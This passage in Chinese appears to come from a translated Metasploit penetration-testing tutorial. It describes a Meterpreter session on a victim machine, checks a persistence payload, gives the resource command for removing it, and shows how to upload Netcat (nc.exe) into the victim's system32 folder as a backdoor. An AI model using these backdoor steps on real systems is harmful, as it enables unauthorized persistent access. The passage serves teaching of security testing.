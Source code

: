 
我们看到从受害者的系统建立了一个 Meterpreter 会话。让我们验证一下 payload 是否被放在了受害者的`C:`驱动器中。

![Metasploit 持久后门](img/3589_10_37.jpg)

如果要删除该 payload，我们必须输入`resource`和在运行`persistence`命令时创建的文件的路径。我们可以在上一步中找到路径。输入`resource /root/.msf4/logs/persistence/PWNED-02526E037_20130513.2452/PWNED-02526E037_20130513.2452.rc`。

![Metasploit 持久后门](img/3589_10_38.jpg)

我们将向您展示另一个著名的持久后门 Netcat。我们将通过 Meterpreter 会话将 Netcat 上传到受害者的系统上。就像在以下截图中一样，我们将在桌面上看到`nc.exe`文件；那个文件就是 Netcat。现在我们将把这个`nc.exe`文件上传到受害者的`system32`文件夹中。因此输入`upload /root/Desktop/nc.exe C:\\windows\\system32`。

![Metasploit 持久后门](img/3589_10_39.jpg)
